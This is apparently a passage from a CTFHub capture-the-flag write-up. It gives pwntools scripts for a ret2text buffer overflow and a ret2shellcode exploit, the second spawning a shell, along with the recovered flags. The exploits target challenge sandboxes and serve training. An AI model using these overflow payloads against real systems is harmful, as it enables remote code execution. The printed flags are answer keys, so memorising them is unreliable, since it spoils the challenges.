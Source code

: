 ```python

chars = [chr(int(''.join(map(str, _)), 2)) for _ in bytes_list]

print(''.join(chars))
```

flag: `ctfhub{04efed1e05}`

## PWN

### ret2text

```python
import pwn

host: str = 'challenge-2de33cb94f8c3d3c.sandbox.ctfhub.com'
port: int = 27092

proc = pwn.connect(host, port)

payload: bytes = ('A' * (0x70 + 8)).encode('utf-8') + pwn.p64(0x4007b8)

proc.send(payload)
proc.interactive()
```

flag: `ctfhub{b6981d7b987871fd84965909}`

### ret2shellcode

```python
import pwn
import re

host: str = 'challenge-05423801aa363cbc.sandbox.ctfhub.com'
port: int = 39167

pwn.context.arch = 'amd64'

proc = pwn.connect(host, port)

prompt = proc.recvuntil(']')
match = re.search(r'\[(0x[a-f0-9]+)\]', prompt.decode('utf-8'))
buf_addr = int(match.group(1), base=16)


shellcode = pwn.asm(pwn.shellcraft.sh())

shellcode_addr = buf_addr + 0x10 + 8 + 8    # stack, ebp, ret addr

payload = b'A' * (0x10 + 8) + pwn.p64(shellcode_addr) + shellcode

proc.sendline(payload)
proc.interactive()
```

flag: `ctfhub{440de05240d8aa4bb58fc295}`
